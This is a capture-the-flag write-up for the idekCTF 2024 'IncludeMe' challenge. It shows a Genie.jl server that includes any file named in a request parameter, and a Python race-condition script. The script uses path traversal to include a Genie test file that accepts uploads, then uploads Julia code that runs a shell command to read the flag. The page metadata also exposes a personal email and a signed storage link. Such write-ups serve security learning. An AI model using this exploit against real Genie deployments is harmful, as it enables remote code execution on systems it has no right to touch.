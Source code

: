 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466XDABIIOH%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T210326Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjED0aCXVzLXdlc3QtMiJHMEUCIQDFx8KawQ2Sr7H8QMnBiFAiTTk%2BEcbaIeaWrWgIe2SM8gIgSLYXS75DjklL2WGKOdszTVECzaedn1LO0m3%2BEhf6rOQqiAQI9v%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDKpFobV9LZ%2Fnc3%2F4TCrcAzCBEeMD4C9kSPf7uf2enf2gha3ZI2YiUYCM0jJlMdxHxRIrodUsTrymwmPwDYzwJAxkZor4GiLAqhG0e3Q5ie6J33QivzLWp7PFj0u0RnkRAcRNbEMpxF5SdgKg0Qn7X6cq87LNqCw78VgpdSGUFvNoeo3U0yU8HB3rX5lTR5LPJ1MW2dU3BHAY3zeV9V8B0zQECmhdzepXGlu9nW6C6SM5ueGM3XTL19SSdP5rF66AX4t%2B0iRK4MSErypz%2FE%2FsbiTALPnZ049r%2Ba%2ByfDsgOJfWIlznACdQHnviBsI%2FloLb11rmjxrpf66413ipNl%2BrJFJUU0vdB05sYMHmrfBuxWu8GJaUXGC9veQMoCEosN9yDXrjRTQEOsXcE2EwicmOehAvAWKcMl5i3pHzdGO%2Fb2vm6enAeWy7nlXEowFvGCQya5Bqw8G6sh0eIMSHxk0n1AR6PzkOaYc%2FaxN8n9Ro3a6IbPR1JWRb%2FuDc1tr6j4ty%2BdZwk8Jr7oWjiLKRdIIb90bQ75TeMNYhBhq2SufL7G2l31FJ8g6%2FDJQZ%2Bzffc6hCvT%2BI9OGfcEXh%2BxsXhuyKd3TyRiINC3nnqZ1YHqBxK5K%2B472lP%2B3q55NcO%2BVQCLk9My3ufQPxnVBkcViiMNK9w8EGOqUBuHqOLrr3Wd9BbDaNTv1TteLFrWWyoe0ZQKW9U%2BOr3ztAy12MU2rOL70A7QLLNU2UOyPbvH6F9KsV8R3oLTZKaKqXz1i0h2p67wc59EHcP7bHjIpTSe9r50%2B%2F8Ux7YlBeuxZarbHsPTKfGqHzJ4EVBd14%2BOVOrWJIGk6rMqWKqPWoQA0ekHfaDdSRuYr1QuPzC2aUMMFREMyZDVWBQzhVAYC4XMWk\&X-Amz-Signature=402ac170be4071b8a005df4eb857cc2e09ac0140d0cb160dbd80d70352ef6b03\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
